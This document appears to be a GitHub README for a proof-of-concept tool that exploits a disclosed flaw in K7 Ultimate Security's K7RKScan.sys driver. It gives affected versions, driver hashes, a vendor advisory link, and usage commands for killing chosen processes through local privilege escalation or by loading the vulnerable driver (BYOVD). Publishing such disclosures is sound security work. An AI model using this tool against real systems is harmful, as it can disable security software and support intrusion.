 # K7Terminator
- PoC for vulnerabilities I discovered in K7 Ultimate Security’s `K7RKScan.sys` (**CVE-2025-52915, CVE-2025-1055**).
- Affects:
  - **Legacy builds (15.1.0.6–7)** -> low-privilege abuse
  - **Current build (23.0.0.10)** -> admin/BYOVD abuse
- **[Vendor advisory issued](https://support.k7computing.com/index.php?/solutions/view-article/Advisory-issued-on-2nd-Sep-2025)**
- Full write-up & details: **[CVE-2025-52915: A BYOVD Evolution Story](https://blacksnufkin.github.io/posts/BYOVD-CVE-2025-52915/)**

**Driver hashes:**
- `K7RKScan.sys` **15.1.0.6** SHA256: `B16E217CDCA19E00C1B68BDFB28EAD53B20ADEABD6EDCD91542F9FBF48942877`
- `K7RKScan.sys` **23.0.0.10** SHA256: `5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040`

---

**Usage**

Place the vulnerable `K7RKScan.sys` in the same folder as the executable.  
Provide a **process name** or **PID**.  
(The file must be named `K7RKScan.sys`.)

```
K7RKScan Process Terminator - LPE + BYOVD (CVE-2025-52915) PoC

Usage: K7Terminator.exe [OPTIONS] --mode <mode>

Options:
  -m, --mode <mode>      lpe (wait for service) or byovd (load driver) [possible values: lpe, byovd]
  -p, --pid <pid>        Target process ID
  -n, --name <name>      Target process name(s)
  -l, --looper           Keep targeting processes
  -d, --driver <driver>  Driver path (default: ./K7RKScan.sys)
  -h, --help             Print help
  -V, --version          Print version

EXAMPLES:
  K7Terminator.exe -m lpe -n notepad.exe
  K7Terminator.exe -m byovd -p 1234
```